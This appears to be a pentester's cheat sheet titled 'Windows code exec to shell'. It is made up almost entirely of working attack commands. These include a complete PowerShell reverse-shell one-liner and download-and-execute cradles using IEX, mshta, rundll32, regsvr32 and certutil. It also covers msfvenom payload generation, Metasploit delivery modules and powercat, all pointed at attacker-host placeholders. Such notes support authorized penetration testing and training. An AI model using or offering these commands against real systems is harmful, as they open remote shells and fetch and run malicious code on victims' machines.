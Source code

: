 # Windows code exec to shell

### Windows one-liners

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

### powershell.exe

```text
$client = New-Object System.Net.Sockets.TCPClient("<LHOST>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```text
# serve shell.ps1
python3 -m http.server <port>

# execute on target
powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<LPORT>/shell.ps1\");"
```

#### Creating encoded powershell commands on linux

```text
echo -n "IEX (New-Object Net.WebClient).downloadstring('<thing_to_execute>')" | iconv --to-code UTF-16LE | base64 -w 0
```

### mshta.exe

Runs .hta \(HTML Application\) files

```text
# first, we generate hta-psh file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f hta-psh -o <file>.hta

# then we start server
python3 -m http.server <port>

# and run command on target host
mshta.exe http://<LHOST>:<port>/<file>.hta
```

```text
use exploit/windows/misc/hta_server

mshta.exe http://<attacker>/<path>.hta
```

### rundll32.exe

```text
# first, we generate dll file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f dll -o <file>.dll

# serve a file throught smb
sudo python3 ../smbserver.py -smb2support -user <user> -password <pass> <share> `pwd`

# execute on target
rundll32.exe \\<lhost>\<share>\<file>.dll,0
```

```text
use exploit/windows/smb/smb_delivery

rundll32.exe \\<attacker>\<path>\<file>.dll,0
```

### regsrv32.exe

```text
use exploit/multi/script/web_delivery

regsvr32 /s /n /u /i:http://<attacker>:<p>/<file>.sct scrobj.dll
```

### certutil.exe

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=<lhost> lport=<lport> -f exe > shell.exe

# host generated file
python3 -m http.server 80

# start listener (exploit/multi/handler)

certutil.exe -urlcache -split -f http://<target>/shell.exe shell.exe & shell.exe
```

### powershell.exe \(with powercat\)

```text
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker>/powercat.ps1');powercat -c <attacker> -p <port> -e cmd"
```

### more ...

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

